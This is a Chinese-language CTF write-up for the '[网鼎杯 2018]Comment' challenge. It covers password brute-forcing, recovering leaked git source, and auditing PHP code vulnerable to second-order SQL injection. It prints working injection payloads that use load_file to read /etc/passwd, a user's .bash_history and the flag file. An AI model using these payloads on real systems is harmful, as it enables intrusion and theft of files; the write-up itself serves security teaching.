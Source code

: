 ```yaml
---
title: '[网鼎杯 2018]Comment'
date: 2024-06-16 16:04:18
tags: sql注入
categories: 刷题笔记
---
```


### [网鼎杯 2018]Comment(git源码修复&二次注入)

打开页面，发帖发现需要登录，账号给了，密码还有三位数没给

![image-20240616160714183](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161607231.png)

我们进行爆破

<!--more-->

![image-20240616161010126](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161610190.png)

爆出来了，最后三位666，我们进行登录

然后扫描目录，发现git源码泄露

我们利用githacker得到源码

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/fc401dd1e0ea45eea4b32d70aa753bad.png)

但这个文件不全，我们找一下历史漏洞

```
git log --reflog

得到：commit e5b2a2443c2b6d395d06960123142bc91123148c (refs/stash) 有很多的这种的，从第一个一个试
然后恢复到想要的版本

git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c

hard 后面跟随的是之前版本的文件记录，也叫版本回滚

```

我们就能得到完整源码了（wp找的，我没找到）

```
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>

```

然后就是代码审计了

我们可以发现当do=write的时候，传入的信息都会进行转义，但是数据库会自动清除反斜杠，

![image-20240616170312823](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161703856.png)

do=comment的时候，可以发现直接从category这个字段进行查询，这就导致了二次注入
所以说那个转义函数根本起不到防护的作用

![image-20240616170333625](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161703668.png)

通过下面的sql语句来进行注入

```
 $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
```

首先我们需要在界面看到sql注入后的回显

可以发现content这个变量最后会回显在我们的留言页面中，那么就通过他来输出我们的sql语句
然后闭合sql语句 由于内容太多了，采取/**/的批量注释方法,

payload

```
title=23&category=1',content=database(),/*&content=3123

```

再让content = */#

![image-20240616170959263](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161709356.png)

提交之后会爆出库名

我们查看users

```
title=23&category=1',content=user(),/*&content=3123
```

发现使用者是root权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200503101150975.png)

这样的话，一般 flag 就不会在数据库里面(因为如果在数据库中，不需要root权限)

所以sql注入读取本地文件 可以使用load_file()

玩过linux的都知道 /etc/passwd这里存储用户信息
payload

```
category==213',content=(select load_file('/etc/passwd')),/*

```

![image-20240616171347651](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161713771.png)

有个www用户

查看**bash_history ：** **保存了当前用户使用过的历史命令,方便查找**

在/home/www/下

```
213',content=(select load_file('/home/www/.bash_history')),/*

```

![image-20240616171457354](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161714413.png)

看见他删除了 .DS_Store 文件，由于目标环境是docker，所以 .DS_Store 文件应该在 /tmp/html 中。而 .DS_Store 文件中，经常会有一些不可见的字符，可以使用hex函数对其进行16进制转换，

```
213 ',content=(select hex(load_file("/tmp/html/.DS_Store"))),/*

```

出来一大窜16进制，我们放bp解码，flag在`flag_8946e1f1ee3e40f.php`

![image-20240616193121026](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161931138.png)

payload访问文件

```
213',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
```

![image-20240616192502204](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161925278.png)

我们进行解码

![image-20240616193256248](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161932303.png)

得到flag

